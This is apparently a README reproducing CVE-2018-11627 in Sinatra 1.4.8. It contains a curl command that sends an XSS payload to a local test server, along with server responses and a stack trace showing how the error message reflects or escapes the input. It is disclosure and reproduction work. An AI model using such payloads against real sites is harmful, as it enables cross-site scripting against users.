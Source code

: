 # CVE-2018-11627

Repro for CVE-2018-11627 with Sinatra 1.4.8. See https://github.com/sinatra/sinatra/issues/1428.

Start app

    BUNDLE_GEMFILE=Gemfile-sinatra-1.4.8 bundle exec ruby modular_app.rb

Test it

    $ ./test.sh
    + curl --include http://127.0.0.1:4567/ --data '" %x\"> <script>alert(1)</script>"'
    HTTP/1.1 500 Internal Server Error
    Content-Type: text/plain
    Content-Length: 2418
    Server: WEBrick/1.3.1 (Ruby/2.4.2/2017-09-14)
    Date: Thu, 07 Jun 2018 09:33:22 GMT
    Connection: Keep-Alive

    Rack::Utils::InvalidParameterError: invalid %-encoding (" %x\"> <script>alert(1)</script>")
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/utils.rb:127:in `rescue in parse_nested_query'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/utils.rb:117:in `parse_nested_query'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/request.rb:371:in `parse_query'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/request.rb:215:in `POST'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/request.rb:230:in `params'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:902:in `call!'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:895:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/xss_header.rb:18:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/path_traversal.rb:16:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/json_csrf.rb:18:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/base.rb:49:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/base.rb:49:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/frame_options.rb:31:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/nulllogger.rb:9:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/head.rb:13:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/show_exceptions.rb:25:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:182:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:2013:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:1487:in `block in call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:1787:in `synchronize'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:1487:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/handler/webrick.rb:88:in `service'
        /Users/dentarg/.rubies/ruby-2.4.2/lib/ruby/2.4.0/webrick/httpserver.rb:140:in `service'
        /Users/dentarg/.rubies/ruby-2.4.2/lib/ruby/2.4.0/webrick/httpserver.rb:96:in `run'
        /Users/dentarg/.rubies/ruby-2.4.2/lib/ruby/2.4.0/webrick/server.rb:290:in `block in start_thread'

---

Not a problem with `RACK_ENV=production`

    RACK_ENV=production BUNDLE_GEMFILE=Gemfile-sinatra-1.4.8 bundle exec ruby modular_app.rb

Output

    $ ./test.sh
    + curl --include http://127.0.0.1:4567/ --data '" %x\"> <script>alert(1)</script>"'
    HTTP/1.1 500 Internal Server Error
    Content-Type: text/html; charset=ISO-8859-1
    Server: WEBrick/1.3.1 (Ruby/2.4.2/2017-09-14)
    Date: Thu, 07 Jun 2018 11:51:30 GMT
    Content-Length: 365
    Connection: close

    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0//EN">
    <HTML>
      <HEAD><TITLE>Internal Server Error</TITLE></HEAD>
      <BODY>
        <H1>Internal Server Error</H1>
        invalid %-encoding (&quot; %x\&quot;&gt; &lt;script&gt;alert(1)&lt;/script&gt;&quot;)
        <HR>
        <ADDRESS>
         WEBrick/1.3.1 (Ruby/2.4.2/2017-09-14) at
         127.0.0.1:4567
        </ADDRESS>
      </BODY>
    </HTML>

With Sinatra 2.0.1 the body is not escaped, even with `RACK_ENV=production`.
